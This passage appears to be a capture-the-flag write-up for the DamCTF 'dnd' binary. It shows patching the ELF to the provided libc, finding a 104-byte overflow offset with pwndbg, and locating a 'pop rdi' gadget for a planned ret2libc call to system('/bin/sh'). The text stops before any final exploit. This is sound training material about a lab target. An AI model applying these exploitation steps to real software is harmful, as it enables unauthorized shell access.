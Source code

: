 So the first step is to patch the binary to link with the provided libc.

> **Patching the ELF**

```bash
cp dnd chal_patched
patchelf --replace-needed libc.so.6 ./libc.so.6 --set-interpreter ./ld-linux-x86-64.so.2 ./chal_patched
```

---

Next, we perform a basic overflow analysis.  
We’ll use `cyclic` from `pwndbg` to generate a pattern and find the exact buffer overflow offset.

> **Finding the buffer overflow offset**

```bash
pwndbg> cyclic 200
aaaaaa...aaaa
pwndbg> r

##### Welcome to the DamCTF and Dragons (DnD) simulator #####
Can you survive all 5 rounds?

>>> Round 1
Points: 0 | Health: 10 | Attack: 5
New enemy! You are now facing off against: Zoggoth the Ogre (6 health, 2 damage)
Do you want to [a]ttack or [r]un? a
Oof, that hurt ;(

>>> Round 2
Points: -6 | Health: 8 | Attack: 5
New enemy! You are now facing off against: Terragon the Dragon (9 health, 9 damage)
Do you want to [a]ttack or [r]un? a
Oof, that hurt ;(
Congratulations! Minstrels will sing of your triumphs for millennia to come.
What is your name, fierce warrior? aaaaa...aaaaa

0x402960 <win()+243>    ret            <0x616161616161616e>

pwndbg> cyclic -l 0x616161616161616e
Finding cyclic pattern of 8 bytes: b'naaaaaaa' (hex: 0x6e61616161616161)
Found at offset 104
```

Since we're planning to perform a `ret2libc` attack,  
our goal is to call `system("/bin/sh")`.  
We can use `pwntools` to easily locate the string and function addresses,  
but we’ll also need a `pop rdi; ret` gadget to set the first argument to `/bin/sh`.  
For that, `ROPgadget` is a useful tool.

> **Finding a gadget to set `/bin/sh` into `rdi`**

```bash
❯ ROPgadget --binary=chal_patched | grep "pop rdi"
...
0x0000000000402640 : pop rdi ; nop ; pop rbp ; ret
...
```
